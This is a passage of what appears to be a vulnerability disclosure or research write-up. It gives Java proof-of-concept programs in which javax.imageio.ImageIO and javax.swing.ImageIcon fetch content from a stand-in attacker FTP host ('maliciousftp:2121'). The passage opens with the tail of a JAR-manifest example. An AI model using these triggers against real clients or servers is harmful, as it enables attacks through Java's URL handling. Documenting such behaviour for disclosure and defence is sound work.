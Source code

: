 ```
  } catch (IOException e1) {
   e1.printStackTrace();
  }
  try {
   Manifest manifest = jarConnection.getManifest();
  } catch (IOException e) {
   e.printStackTrace();
  }
 }
}
```

## javax.imageio.ImageIO Proof of Concept

```
import java.awt.Image;
import java.io.IOException;
import java.net.URL;
import javax.imageio.ImageIO;
import javax.swing.ImageIcon;
import javax.swing.JFrame;
import javax.swing.JLabel;

public class ImageReader {
 public static void main(String[] args) {
  Image image = null;
  try {
   URL url = new URL("ftp://maliciousftp:2121/test.jpg");
   image = ImageIO.read(url);
  } catch (IOException e) {
   e.printStackTrace();
  }

  JFrame frame = new JFrame();
  frame.setSize(300, 300);
  JLabel label = new JLabel(new ImageIcon(image));
  frame.add(label);
  frame.setVisible(true);
 }
}
```

## javax.swing.ImageIcon Proof of Concept

```
import java.net.MalformedURLException;
import java.net.URL;
import javax.swing.ImageIcon;

public class ImageXcon {
 public static void main(String[] args) {
  URL imgURL;
  try {
   imgURL = new URL("ftp://maliciousftp:2121/test");
   String description = "";
   ImageIcon icon = new ImageIcon(imgURL, description);
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
 }
}
```
